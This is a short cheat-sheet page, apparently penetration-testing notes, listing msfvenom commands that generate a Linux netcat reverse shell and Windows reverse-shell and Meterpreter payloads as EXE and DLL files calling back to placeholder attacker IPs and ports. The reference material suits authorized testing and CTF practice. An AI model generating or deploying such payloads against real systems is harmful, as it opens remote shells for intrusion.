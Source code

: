 ```yaml
---
title: MSFVENOM
summary: A Metasploit module that generates shellcodes.
description: A Metasploit module that generates shellcodes.
---
```


[https://github.com/rapid7/metasploit-framework/blob/master/msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)

## MSFVENOM Base

Payloads naming convention : \[OS\]/\[arch\]/\[payload\]

 > 
 > **<font color=red>msfvenom --list payloads</font>**</br>
 > List payloads.

## MSFVENOM Linux Reverse Shell


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_OP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.

## MSFVENOM Windows Reverse Shell


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> shell<font color=red>.dll</font>**</br>
 > Generate a meterpreter reverse shell DLL.
